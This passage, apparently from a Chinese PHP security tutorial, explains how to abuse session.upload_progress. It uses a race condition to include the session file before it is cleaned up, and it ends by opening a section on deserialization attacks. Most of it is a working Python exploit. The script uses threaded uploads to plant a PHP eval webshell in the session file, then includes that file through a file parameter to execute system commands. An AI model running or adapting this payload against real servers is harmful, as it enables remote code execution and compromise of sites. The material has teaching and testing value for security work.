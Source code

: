 

**问题二**

但是问题来了，默认配置`session.upload_progress.cleanup = on`导致文件上传后，session文件内容立即清空，



**解答二**

此时我们可以利用竞争，在session文件内容清空前进行包含利用。



**payload**

```python
#coding=utf-8
import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('ls');"}
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://127.0.0.1/ss/index.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://127.0.0.1/ss/index.php?file=/var/lib/php/sessions/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++++++++]retry")

if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in xrange(1,30):
            threading.Thread(target=write,args=(session,)).start()

        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```





##### 利用session.upload_progress进行反序列化攻击

### 测试环境

> php7.2
>
> ubuntu18.04
>
> `session.serialize_handler=php_serialize`，其余session相关配置为默认值  //session.upload_progress依赖php.ini
